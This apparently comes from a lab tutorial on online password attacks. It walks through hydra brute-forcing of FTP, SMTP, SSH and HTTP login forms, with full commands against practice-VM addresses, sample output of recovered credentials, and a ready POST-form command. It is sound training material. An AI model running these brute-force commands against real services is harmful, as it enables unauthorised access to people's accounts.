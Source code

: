 Online password attacks involve guessing passwords for networked services that use a username and password authentication scheme, including services such as HTTP, SSH, VNC, FTP, SNMP, POP3, etc. This section showcases using hydra which is a common tool used in attacking logins for various network services.  

## Hydra

Hydra supports an extensive list of network services to attack. Using hydra, we'll brute-force network services such as web login pages, FTP, SMTP, and SSH in this section. Often, within hydra, each service has its own options and the syntax hydra expects takes getting used to. It's important to check the help options for more information and features.  

## FTP  

In the following scenario, we will perform a brute-force attack against an FTP server. By checking the hydra help options, we know the syntax of attacking the FTP server is as follows:

````shell           
user@machine$ hydra -l ftp -P passlist.txt ftp://10.10.x.x
````

`-l ftp` we are specifying a single username, use `-L` for a username wordlist

`-P Path` specifying the full path of wordlist, you can specify a single password by using `-p` 

`ftp://10.10.x.x` the protocol and the IP address or the fully qualified domain name (FDQN) of the target.

Remember that sometimes you don't need to brute-force and could first try default credentials. Try to attack the FTP server on the attached VM and answer the question below.

## SMTP  

Similar to FTP servers, we can also brute-force SMTP servers using hydra. The syntax is similar to the previous example. The only difference is the targeted protocol. Keep in mind, if you want to try other online password attack tools, you may need to specify the port number, which is 25. Make sure to read the help options of the tool.

````shell           
user@machine$ hydra -l email@company.xyz -P /path/to/wordlist.txt smtp://10.10.x.x -v 
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-10-13 03:41:08
[INFO] several providers have implemented cracking protection, check with a small wordlist first - and stay legal!
[DATA] max 7 tasks per 1 server, overall 7 tasks, 7 login tries (l:1/p:7), ~1 try per task
[DATA] attacking smtp://10.10.x.x:25/
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[VERBOSE] using SMTP LOGIN AUTH mechanism
[VERBOSE] using SMTP LOGIN AUTH mechanism
[VERBOSE] using SMTP LOGIN AUTH mechanism
[VERBOSE] using SMTP LOGIN AUTH mechanism
[VERBOSE] using SMTP LOGIN AUTH mechanism
[VERBOSE] using SMTP LOGIN AUTH mechanism
[VERBOSE] using SMTP LOGIN AUTH mechanism
[25][smtp] host: 10.10.x.x   login: email@company.xyz password: xxxxxxxx
[STATUS] attack finished for 10.10.x.x (waiting for children to complete tests)
1 of 1 target successfully completed, 1 valid password found
````

## SSH  

SSH brute-forcing can be common if your server is accessible to the Internet. Hydra supports many protocols, including SSH. We can use the previous syntax to perform our attack! It's important to notice that password attacks rely on having an excellent wordlist to increase your chances of finding a valid username and password.

````shell           
user@machine$ hydra -L users.lst -P /path/to/wordlist.txt ssh://10.10.x.x -v
 
Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes. 

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-10-13 03:48:00
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 8 tasks per 1 server, overall 8 tasks, 8 login tries (l:1/p:8), ~1 try per task
[DATA] attacking ssh://10.10.x.x:22/
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[INFO] Testing if password authentication is supported by ssh://user@10.10.x.x:22
[INFO] Successful, password authentication is supported by ssh://10.10.x.x:22
[22][ssh] host: 10.10.x.x   login: victim   password: xxxxxxxx
[STATUS] attack finished for 10.10.x.x (waiting for children to complete tests)
1 of 1 target successfully completed, 1 valid password found
````

## HTTP login pages

In this scenario, we will brute-force HTTP login pages. To do that, first, you need to understand what you are brute-forcing. Using hydra, it is important to specify the type of HTTP request, whether GET or POST. Checking hydra options: `hydra http-get-form -U`, we can see that hydra has the following syntax for the http-get-form option:

`<url>:<form parameters>:<condition string>[:<optional>[:<optional>]`

As we mentioned earlier, we need to analyze the HTTP request that we need to send, and that could be done either by using your browser dev tools or using a web proxy such as Burp Suite.

````shell           
user@machine$ hydra -l admin -P 500-worst-passwords.txt 10.10.x.x http-get-form "/login-get/index.php:username=^USER^&password=^PASS^:S=logout.php" -f 
Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes. 

Hydra (http://www.thc.org/thc-hydra) starting at 2021-10-13 08:06:22 
[DATA] max 16 tasks per 1 server, overall 16 tasks, 500 login tries (l:1/p:500), ~32 tries per task 
[DATA] attacking http-get-form://10.10.x.x:80//login-get/index.php:username=^USER^&password=^PASS^:S=logout.php 
[80][http-get-form] host: 10.10.x.x   login: admin password: xxxxxx 
1 of 1 target successfully completed, 1 valid password found 
Hydra (http://www.thc.org/thc-hydra) 
finished at 2021-10-13 08:06:45
````

`-l admin`  we are specifying a single username, use `-L` for a username wordlist

`-P Path` specifying the full path of wordlist, you can specify a single password by using -p.

`10.10.x.x` the IP address or the fully qualified domain name (FQDN) of the target.

`http-get-form` the type of HTTP request, which can be either `http-get-form` or `http-post-form`

Next, we specify the URL, path, and conditions that are split using `:`

`login-get/index.php` the path of the login page on the target webserver.

`username=^USER^&password=^PASS^` the parameters to brute-force, we inject `^USER^` to brute force usernames and `^PASS^` for passwords from the specified dictionary.

The following section is important to eliminate false positives by specifying the 'failed' condition with p`F=`.

And success conditions, `S=`. You will have more information about these conditions by analyzing the webpage or in the enumeration stage! What you set for these values depends on the response you receive back from the server for a failed login attempt and a successful login attempt. For example, if you receive a message on the webpage 'Invalid password' after a failed login, set `F=Invalid Password`.

Or for example, during the enumeration, we found that the webserver serves `logout.php`. After logging into the login page with valid credentials, we could guess that we will have logout.php somewhere on the page. Therefore, we could tell hydra to look for the text `logout.php` within the HTML for every request.

`S=logout.php` the success condition to identify the valid credentials

`-f` to stop the brute-forcing attacks after finding a valid username and password

You can try it out on the attached VM by visiting `http://10.10.188.205/login-get/index.php`. Make sure to deploy the attached VM if you haven't already to answer the questions below.

Finally, it is worth it to check other online password attacks tools to expand your knowledge, such as:  

- `Medusa`
- `Ncrack`
- `others!`

*NOTE: Simple Mail Transfer Protocol (SMTP) is a protocol used to send the email to an SMTP server, more specifically to a Mail Submission Agent (MSA) or a Mail Transfer Agent (MTA).*

*NOTE: to make an **hydra** password crack to a post form: `hydra -l burgess -P burgess.txt 10.10.188.205 http-post-form "/login-post/index.php:username=^USER^&password=^PASS^:S=logout.php" -f -I`*

